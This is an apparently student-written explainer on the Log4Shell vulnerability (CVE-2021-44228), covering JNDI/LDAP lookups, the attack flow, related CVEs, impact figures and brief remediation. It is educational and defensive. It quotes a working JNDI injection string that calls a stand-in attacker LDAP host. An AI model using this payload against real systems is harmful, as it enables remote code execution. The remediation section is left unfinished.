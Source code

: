 
# 🚨 Log4Shell: CVE-2021-44228 🚨



## ❓ What is Log4Shell?

The Log4Shell attack was a widespread Java exploit targeting a common logging package (Log4j) for remote code execution. It leveraged a critical vulnerability in the Log4j library, enabling attackers to execute arbitrary code remotely via crafted log messages. Despite the ubiquity of Log4j in various software frameworks and applications, the severity of this vulnerability was rated with a CVSS score of 10, indicating its critical nature.

### Why is it so important
- A popular Java library for logging error messages in applications.**That’s the irony!!!**
- Attackers can exploit the vulnerability using text messages to control a computer remotely. 
- Everyone is using it and there is no fix -> CVSS Score of **“10” CRITICAL**
- The ease of exploiting the vulnerability compounds its impact. The Log4j library controls how applications log strings of code and information. The vulnerability enables an attacker to gain control over a string and trick the application into requesting and executing malicious code under the attacker’s control. 
- Log4j logs messages from software and searches for errors afterward. The data range is broad, from basic browser and web page information to technical details about the system Log4j 2 runs on.
- Not only can the Log4j library create simple logs, but it can also execute commands to generate advanced logging information. It can also communicate with other sources, such as internal directory services.

## 📚 Background

Log4j, a Java-based logging utility, became the focus of security concerns due to its support for lookup syntax that inadvertently allowed for remote code execution through the Java Naming and Directory Interface (JNDI). This vulnerability, stemming from JNDI lookups, enabled attackers to control Log4j's log message processing, leading to the execution of malicious code.
Log4j is a Java based logging utility.
Log4j supports the lookup syntax for better string formatting. For example,
```
String lookup = "${java:os}";
logger.info("App started in OS: {}",lookup);
```
Done by implementing the corresponding Lookup class.
`16:44:47.542 [main] INFO  log4j logger - App started in OS: Mac OS X 13.3.1, architecture: aarch64-64`

Next question that arises : Is the string formatting main cause of vulnerability?

- Not really. The lookups are all predefined lookup strings. You cannot do any other things.
- But the story is different with JNDI.The Log4Shell vulnerability lies in the lookup through Java Naming and Directory Interface (JNDI).

## 🕵️‍♂️ The Vulnerability Explained
**Java Naming and Directory Interface (JNDI)**: 
Provides an API for applications to interact with various directory services, facilitating the lookup of remote objects. It's this mechanism that Log4Shell exploits.
![Name1](Images/image3.png "name1")
- The Java API for naming and directory service. 
- If you have a database connection named `“java:MySqlDS”` in your Java environment.

- Other java processes on the same Java environment can lookup the connection:
```
		Object datasourceRef = context.lookup(“java:MySqlDS”);
		DataSource ds = (DataSource) datasourceRef;
		conn = ds.getConnection();
```
- Also supports DNS lookups: `${jndi:dns:cmu.edu}` to log statistics about DNS lookup.
- This is the main reason why log4j accepts JNDI. Easy to fetch and log some printable objects.The JNDILookup plugin is added to the log4j package in issue LOG4J2-313, in 2013 (version 2.0-beta9)
- JNDI has a number of service provider interfaces (SPIs) that enable it to use a variety of directory services.
![Name1](Images/image6.png "name1")
**Danger! LDAP and RMI support Remote Code Execution.**
**LDAP : Lightweight Directory Access Protocol**
Through the use of JNDI with LDAP, attackers could manipulate the lookup process to execute remote code.
- Can use JNDI + LDAP to find an object containing the needed data.
- ldap://localhost:3**/o=BusinessObjectId allows application to find and invoke the BusinessObject remotely from an LDAP server running either on localhost or remote machine
- LDAP server either running on different server (in protected zone), or potentially anywhere on the Internet.
- If attacker can control the JNDI URL, they can cause the application to load and execute arbitrary Java code.

![Name1](Images/image5.png "name1")

**LOG4J JndiLookup Plugin**
Enables retrieval of variables via JNDI, where specially crafted lookup strings could trigger the vulnerability.
- “The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”
- `${jndi:ldap://attacker.server:1339/evil}` : could be a HTTP header like User-Agent, which commonly gets logged.

## 🎯 Attack Methodology

The attack involves several steps, from the initial injection of the malicious JNDI lookup string into a vulnerable application, to the execution of arbitrary code hosted on the attacker's server. This process could lead to various malicious outcomes, such as establishing reverse shells or executing unauthorized commands on the affected server.
![Name1](Images/demo.gif "name1")
![Name1](Images/image7.png "name1")

## 🎥 Video Demonstration
[![Log4Shell Demo Minecraft](Images/demo.png)](https://drive.google.com/file/d/1nSHfFkhpL-S6hU8LwZ-DDU9vICbSOGzM/view?usp=sharing)


## 💥 Impact and Mitigation

The widespread use of Log4j resulted in a significant impact across numerous systems and applications, with several CVEs issued to address different aspects of the vulnerability. Efforts to mitigate the issue included updating Log4j to a secure version, disabling certain features, and applying patches as they became available.

### Some CVEs 
- **CVSS Base Score:10 (12/10/2021)**
- CVE-2021-45046 enables hackers to send malicious JNDI lookups to systems that use certain non-default settings, even if those systems have fixed Log4Shell. Present in Log4j versions 2.15 and below. 

- **CVSS Base Score:5.9 (12/18/2021)**  
- CVE-2021-45105 enables hackers to launch denial-of-service attacks by sending malicious messages to Log4j. Present in Log4j versions 2.16 and below. 

- **CVSS Base Score:6.6 (12/28/2021)**
- CVE-2021-44832 is a remote code execution vulnerability. This flaw is less critical than Log4Shell because hackers need to gain elevated permissions before they can exploit it. Present in Log4j versions 2.17 and below.  

### Stats
- More than 35,000 Java packages, amounting to over 8% of the Maven Central repository

- As of December 16, 2021, 35,863 of the available Java artifacts from Maven Central depend on the affected log4j code

![Name1](Images/image19.png "name1")

**Impact on Human Workforce**
- Over 800,000 exploitation attempts were detected in the first 72 hours after log4j became public implying an urgent response from security team all around the world disrupting all the security engineers.
- This also implies a significant burden and stress on the developers and maintainers of Log4j and other open source projects. 

**Monitory Impact**
- The most affect organizations where evaluated over $100M.
- Most effect industry was education  services.

**Keeping at bay**
- In November 2022, Tenable reported that 29% of the assets still vulnerable to Log4Shell were “recurrences,” meaning they were patched, but the flaw reappeared.

## Time Line 

![Name1](Images/timeline.png "name1")

## Fix & Remediation
1. Upgrade to the latest version of log4j. (At least >=2.15.0)
What did this fix had to offer 



## 🤔 Reflections on Log4Shell

The incident raised questions about the security of open-source frameworks and the responsibilities of developers and maintainers in ensuring the security of their software. It highlighted the importance of cautious feature support in security-critical software and the need for prompt and effective vulnerability management.


**Authors:** Aditya Sudhansu, Ziheng Yan, Jun Wen, Paras Saxena, Trevor Kann


